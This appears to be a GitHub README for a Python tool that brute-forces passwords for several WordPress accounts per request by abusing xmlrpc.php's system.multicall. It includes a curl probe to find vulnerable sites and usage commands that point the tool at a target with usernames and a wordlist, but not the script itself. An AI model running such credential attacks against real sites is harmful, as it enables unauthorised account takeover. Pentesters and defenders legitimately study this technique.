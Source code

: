 # xmlrpc multi request
Python 3 script for bruteforcing multiple Wordpress users using only one request per password.

## How does it work?
The [Hacktrick's Wordpress Pentesting Guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#xml-rpc) mentions that, if xmlrpc.php is enabled, Bruteforcing and DoS attacks can be used by abusing the system functionalities, including trying multiple users with **only one request**, using the `system.multicall` function (see [here](https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FILyTlmNzv1D9YhHQAJo2%2Fimage.png?alt=media&token=5aa88cc4-baa0-4e54-87c1-2cc31203199d)).

## Testing the vulnerability

Run this command, replacing `wordpress-blog.com` with your website:
```
curl -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" -X POST http://wordpress-blog.com/xmlrpc.php
``` 

See if the response is an XML with all functionalities available, like: 
```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  [...]
```
Then, it's probably **vulnerable**.

## Installation

```
pip install requests
curl {link} | tee xmlrpc.py 
```

## Usage

### Basic Usage:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader
```

### Setting an specific wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt
```

### Start the bruteforce with an word inside the wordlist:
```
python3 xmlrpc.py --target=https://your-blog.com --users admin,editor,reader --wordlist=my_wordlist.txt --word=super_secure_password
```

### Using the config.json file:
By default, xmlrpc.py saves in the `config.json` the last session:

```
{
    "host":"http://your-blog.com/xmlrpc.php",
    "users":"['admin', 'editor', 'reader']",
    "WORDLIST":"/usr/share/wordlists/rockyou.txt",
    "WORD":"mcfly",
    "debug":"False"
}
```

You can replay that session running:

```
python3 xmlrpc.py --config config.json
``` 

## License
This project is under [GNU GPLv3](LICENSE).
